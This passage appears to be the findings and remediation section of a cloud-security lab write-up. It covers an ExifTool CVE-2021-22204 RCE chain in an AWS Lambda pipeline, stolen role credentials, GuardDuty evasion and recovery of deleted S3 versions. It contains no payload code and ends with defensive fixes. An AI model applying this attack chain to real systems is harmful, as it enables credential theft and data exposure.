### 1. ExifTool CVE-2021-22204

- `ParseAnt()` in `DjVu.pm` passes annotation values directly to Perl `eval()` — no sanitization.
- Magic-byte based file type detection means extension filtering is not a mitigation. A DjVu file named `.mp4`, `.jpg`, or anything else still triggers the parse.
- ANTa (uncompressed) and ANTz (bzz-compressed) annotation chunks are both vulnerable.
- Any automated pipeline that calls ExifTool ≤ 12.23 on user-uploaded files is a high-value RCE target.

### 2. Lambda Credential Injection

- AWS injects `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN` as environment variables into every Lambda invocation.
- RCE inside Lambda = immediate access to the execution role's full permissions.
- The only real defense is preventing the RCE — there is no way to hide credentials that Lambda injects by design.

### 3. GuardDuty Is a Detection Layer, Not a Gate

- GuardDuty Malware Protection for S3 is asynchronous. It scans after `PutObject`, delivers results via tags and EventBridge, and cannot block Lambda execution.
- DjVu ANTa payloads have no known malware signature — the scan result is `NO_THREATS_FOUND`.
- "GuardDuty Enabled" in a UI is not a security guarantee against novel or metadata-based exploits.

### 4. S3 Versioning — Deletion ≠ Destruction

- `DeleteObject` on a versioned bucket creates a Delete Marker. The previous version survives with its `VersionId`.
- `s3 ls`, plain `GetObject`, and most tooling treat the Delete Marker as "file not found" and stop.
- `ListObjectVersions` exposes the full history. `GetObject?versionId=` retrieves any version directly.
- "Permanently removed" is meaningless when versioning is enabled and the role has `s3:ListBucketVersions`.

### 5. Over-Permissive IAM Role

- `s3:*` on the vault was set during development and never scoped down.
- This wildcard includes `s3:ListBucketVersions` and `s3:GetObject` with `versionId` — exactly what version recovery requires.
- A scoped policy (`s3:PutObject` and `s3:CopyObject` on specific prefixes only) would have prevented enumeration of version history entirely.

---

## Remediation

### Upgrade ExifTool

Pin ExifTool to ≥ 12.24 in the Lambda layer. CVE-2021-22204 is patched in 12.24 — `ParseAnt()` no longer passes annotation values to `eval()`.

### Least Privilege IAM Policy

Replace `s3:*` with the minimum required for the Lambda pipeline:

```json
{
  "Effect": "Allow",
  "Action": ["s3:PutObject", "s3:CopyObject"],
  "Resource": "arn:aws:s3:::beaversound-vault-*/*"
}
```

This removes `s3:ListBucketVersions` and `s3:GetObject` with `versionId` — version history enumeration becomes impossible.

### Remove Version Info Disclosure

Strip the `X-Processor` response header from Lambda's return value and remove the processor version display from the portal UI. Component version disclosure is a reconnaissance aid with no user-facing benefit.

### S3 Object Lock for Compliance Deletion

`DeleteObject` on a versioned bucket creates a Delete Marker — previous versions survive. To permanently remove a sensitive file:

1. Call `list-object-versions` to enumerate all VersionIds for the key
2. Delete each VersionId explicitly with `delete-objects`
3. For compliance-grade guarantees, enable S3 Object Lock (Governance or Compliance mode) before the deletion so no version can be recovered after the retention period
